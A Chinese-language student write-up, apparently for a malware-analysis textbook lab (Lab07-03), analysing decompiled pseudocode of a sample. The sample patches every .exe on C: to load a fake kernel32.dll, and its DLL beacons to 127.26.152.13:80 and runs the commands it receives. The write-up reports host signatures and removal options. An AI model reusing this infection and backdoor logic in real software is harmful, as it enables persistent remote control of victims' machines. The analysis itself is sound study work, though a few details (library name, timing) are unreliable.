


# lab7-3

## QUESTION 1

> How does this program achieve persistence to ensure that it continues running when the computer is restarted?

首先查看函数导入表，发现 `Lab07-03.exe` 这个文件有导入一个 `CopyFileA` 这个敏感函数。

然后我们分析这个可执行文件的伪代码。伪代码定义了大量局部变量后，先进行如下的判断：

```c
  if ( argc == 2 && !strcmp(argv[1], aWarning_this_w) )
```

该判断的作用是判断命令行参数长度是否为 2，第二个参数内容是否为 `WARNING_THIS_WILL_DESTROY_YOUR_MACHINE`。

以下几行的伪代码，通过查看 MSDN 的 API 函数介绍可以阅读其功能：

```c
    v3 = CreateFileA(FileName, 0x80000000, 1u, 0, 3u, 0, 0);
    hObject = v3;
    v4 = CreateFileMappingA(v3, 0, 2u, 0, 0, 0);
    v5 = (char *)MapViewOfFile(v4, 4u, 0, 0, 0);
    v6 = v5;
    argca = (int)v5;
    v7 = CreateFileA(ExistingFileName, 0x10000000u, 1u, 0, 3u, 0, 0);
    v50 = v7;
    if ( v7 == (HANDLE)-1 )
      exit(0);
    v8 = CreateFileMappingA(v7, 0, 4u, 0, 0, 0);
    if ( v8 == (HANDLE)-1 )
      exit(0);
    v9 = (const char **)MapViewOfFile(v8, 0xF001Fu, 0, 0, 0);
    argva = v9;
    if ( !v9 )
      exit(0);
```

其功能大概是创建一个文件 `FileName = C:\Windows\System32\Kernel32.dll`，并且将其内容映射到内存中作为一个字符型的指针 `v5` 存储。并且打开了文件 `ExistingFileName = Lab07-03.dll`，并将其映射到了变量 `v9`

后面一段直到主函数结束，多次调用 `sub_401040()`、`sub_401070()`、`sub_4010A0()` 这些函数，这个函数内部又调用了 `sub_401000` 这个函数，我们暂时不分析这段比较长的片段代码。

在函数结束时，调用了 `sub_4011E0(aC, 0);` 这个函数，我们进一步分析这个函数。伪代码大致如下：

```c
  result = a2;
  if ( a2 <= 7 )
  {
    v3 = lpFileName;
    v4 = FindFirstFileA(lpFileName, &FindFileData);
    hFindFile = v4;
    while ( v4 != (HANDLE)-1 )
    {
      if ( !(FindFileData.dwFileAttributes & 0x10)
        || !strcmp(FindFileData.cFileName, a_)
        || !strcmp(FindFileData.cFileName, a__) )
      {
        v6 = strlen(FindFileData.cFileName) + 1;
        v7 = (char *)malloc(strlen(v3) + strlen(FindFileData.cFileName) + 1);
        strcpy(v7, lpFileName);
        v7[strlen(lpFileName) - 1] = 0;
        strcat(v7, FindFileData.cFileName);
        if ( !stricmp((const char *)&FindFileData.dwReserved0 + v6 + 3, a_exe) )
          sub_4010A0(v7);
        v3 = lpFileName;
      }
      else
      {
        v5 = (char *)malloc(strlen(v3) + 2 * strlen(FindFileData.cFileName) + 6);
        strcpy(v5, v3);
        v5[strlen(v3) - 1] = 0;
        strcat(v5, FindFileData.cFileName);
        strcat(v5, asc_403038);
        sub_4011E0(v5, a2 + 1);
      }
      v4 = hFindFile;
      result = FindNextFileA(hFindFile, &FindFileData);
      if ( !result )
        return result;
    }
    result = FindClose((HANDLE)0xFFFFFFFF);
  }
  return result;
```

没有看到特别有特征的 API 函数，我们转到汇编代码，并且查看 `xref from...`，查看它调用的所有函数：



值得注意的是，这个函数进行了自调用，其中一个比较重要的子函数是 `sub_4010A0` 我们进一步分析这个函数。同样的用 F5 查看其伪代码：

```c
... 
 v1 = CreateFileA(lpFileName, 0x10000000u, 1u, 0, 3u, 0, 0);
 v14 = v1;
 v2 = CreateFileMappingA(v1, 0, 4u, 0, 0, 0);
 hObject = v2;
 result = MapViewOfFile(v2, 0xF001Fu, 0, 0, 0);
 v4 = result;
 v12 = result;
 if ( result )
  {
    v5 = (int)result + *((_DWORD *)result + 15);
    result = (const void *)IsBadReadPtr((char *)result + *((_DWORD *)result + 15), 4u);
    if ( !result && *(_DWORD *)v5 == 17744 )
    {
      v6 = (const void *)sub_401040(*(_DWORD *)(v5 + 128), v5, (int)v4);
      v7 = v6;
      result = (const void *)IsBadReadPtr(v6, 0x14u);
      if ( !result )
      {
        for ( i = (int *)((char *)v7 + 12); *(i - 2) || *i; i += 5 )
        {
          v9 = (int *)sub_401040(*i, v5, (int)v4);
          v10 = v9;
          result = (const void *)IsBadReadPtr(v9, 0x14u);
          if ( result )
            return result;
          if ( !stricmp((const char *)v10, Str2) )
          {
            qmemcpy(v10, &dword_403010, strlen((const char *)v10) + 1);
            v4 = v12;
          }
        }
        v11 = v5 + 208;
        *(_DWORD *)v11 = 0;
        *(_DWORD *)(v11 + 4) = 0;
        UnmapViewOfFile(v4);
        CloseHandle(hObject);
        result = (const void *)CloseHandle(v14);
      }
    }
  }
  return result;
...
```

我们发现其逻辑与调用这个函数的传入参数有着密切关系，我们考虑 `sub_4011E0()` 中调用的传入参数，发现又与 `sub_4011E0` 的传入参数有关，我们进一步分析主函数中传入的字符串，发现它是一个字面量：

```
.data:00403044 ; CHAR aC[]
.data:00403044 aC              db 'C:\*',0             ; DATA XREF: _main:loc_401806o
```

也就是说它的传入参数是 `C:\*`，进而分析 `sub_4011E0` 的逻辑：

* 猜测大概是将 `C:\*` 匹配到的所有文件名作为参数依次传入 `sub_4010A0` 这个函数，我么们进一步分析传入的逻辑，发现需要匹配到 `.exe` 才会传入这个函数。
* 结合之前在调用图中发现的自调用，我们猜测 `sub_4011E0` 是一个用于处理文件夹的函数，`sub_4010A0` 则是一个用于处理文件的函数。

知道了 `sub_4011E0` 的参数之后，进一步分析它的伪代码，发现其中关键的三行：

```c
          if ( !stricmp((const char *)v10, Str2) )
          {
            qmemcpy(v10, &dword_403010, strlen((const char *)v10) + 1);
            v4 = v12;
          }
```

分析 `Str2` 的内容：

```
.data:00403020 ; char Str2[]
.data:00403020 Str2            db 'kernel32.dll',0     ; DATA XREF: sub_4010A0+CEo
```

如果 `v10` 是 `kernel32.dll` 的还，则要替换 `v10` 的内容。也就是说这个恶意代码将要替换 `kernel32.dll` 这个动态链接库。暂时还分析不出是使用什么内容进行的替换，我们猜的使用的就是 `Lab07-03.dll` 这个动态链接库。于是，这个程序通过替换 `kernel32.dll` 文件达到持续运行的效果。

## QUESTION 2

> What are two good host-based signatures for this malware?

上面的分析表示 `Lab07-03.exe` 这个文件修改了 `C:\*` 中所有以 `.exe` 结尾的文件（可执行文件），并且将其中的 `kernel32.dll` 替换为新的动态链接库。

由于暂时还未分析出替换的内容（这一部分应该是 `main` 函数中被忽略的部分的代码的逻辑），我们只能猜测这个动态链接库是 `Lab07-03.dll`（我觉得这个猜测非常合理）。

因此恶意代码的核心是这个动态链接库完成的功能，我们进一步分析这个动态链接库。首先分析函数的导入表：



发现这个动态链接库导入了 `CreateProcessA`，`CreateMutexA`，`OpenMutexA` 等线程相关函数，在左侧还发现它导入了 `W32_32.dll` 这个与网络请求相关的动态链接库。

在 `IdaPro` 中，这个动态链接库有一个名为 `DllMain` 的函数，我们进一步分析这个函数的逻辑。查看其伪代码，在创建局部变量、加锁（名为 `SADFHUHF`）、条件判断等操作之后，进入了以下的主要代码流程：

```c
v3 = socket(2, 1, 6);
if ( v3 != -1 )
{
    name.sa_family = 2;
    *(_DWORD *)&name.sa_data[2] = inet_addr(cp);
    *(_WORD *)&name.sa_data[0] = htons(0x50u);
    if ( connect(v3, &name, 16) != -1 )
    {
        while ( send(v3, ::buf, strlen(::buf), 0) != -1 && shutdown(v3, 1) != -1 )
        {
            if ( recv(v3, &buf, 4096, 0) > 0 )
            {
                if ( !strncmp(Str1, &buf, 5u) )
                {
                    Sleep(0x60000u);
                }
                else if ( !strncmp(aExec, &buf, 4u) )
                {
                    memset(&StartupInfo, 0, sizeof(StartupInfo));
                    StartupInfo.cb = 68;
                    CreateProcessA(0, &CommandLine, 0, 0, 1, 0x8000000u, 0, 0, &StartupInfo, &ProcessInformation);
                }
                else
                {
                    if ( buf == 113 )
                    {
                        CloseHandle(hObject);
                        break;
                    }
                    Sleep(0x60000u);
                }
            }
        }
    }
}
closesocket(v3);
```

分析其逻辑，应用程序创建了一个套接字，主动连接到了 `cp = 127.26.152.13` 的 `0x50 = 80` 端口，并且接受三种字符串的传入内容：

1. `Str1 = sleep`，应用程序会睡眠 `0x60000 ms = 393216 ms = 6.5 min`；
2. `aExec = exec`，应用程序会创建一个供远程执行的 `shell`，执行任意代码；
3. `chr(113) = q`，应用程序会结束。

综上所述，恶意代码感染的主机特征主要是以下两点：

1. 创建了互斥量，其名称为 `SADFHUHF`；
2. 改变了 C 盘中所有可执行文件的 `kernel32.dll` 动态链接库连接位置。

## QUESTION 3

> What is the purpose of this program?

从第二问的分析中我们知道这个程序只要完成的功能是给 `127.26.152.13:80` 建立一个可以远程执行的命令行。其实现的方式是更改了 C 盘上所有可执行文件的 `kernel32.dll` 链接位置。

## QUESTION 4

> How could you remove this malware once it is installed?

它更改了 C 盘中的所有可执行文件，恢复系统相当困难。可以：

1. 阅读完整的恶意代码的逻辑，并且用 C++ 写一个完整恢复的程序；
2. 备份系统，直接恢复到系统最初的样子。
